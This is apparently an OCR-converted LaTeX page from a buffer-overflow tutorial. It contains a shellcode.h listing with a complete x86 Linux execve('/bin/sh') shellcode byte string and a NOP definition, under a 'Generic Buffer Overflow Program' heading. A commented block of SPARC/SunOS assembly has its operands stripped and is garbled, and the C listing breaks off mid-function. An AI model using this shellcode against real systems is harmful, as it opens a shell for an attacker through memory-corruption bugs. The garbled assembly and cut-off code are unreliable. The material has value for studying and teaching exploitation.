 \documentclass[10pt]{article}
\begin{document}
{\begin{comment}
st      %

st      %

mov     0x3b, %

ta      8

xor     %

mov     1, %

ta      8

     

SPARC/SunOS

sethi   0xbd89a, %

or      %

sethi   0xbdcda, %

and     %

add     %

xor     %

add     %

std     %

st      %

st      %

mov     0x3b, %

mov     -0x1, %

ta      %

xor     %

mov     1, %

ta      %
\end{comment}

\section{Generic Buffer Overflow Program}


\begin{lstlisting}[caption=shellcode.h]
#if defined(__i386__) && defined(__linux__)

#define NOP_SIZE        1

char nop[] = "\x90";

char shellcode[] =

  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"

  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"

  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {


\end{lstlisting}}
\end{document}
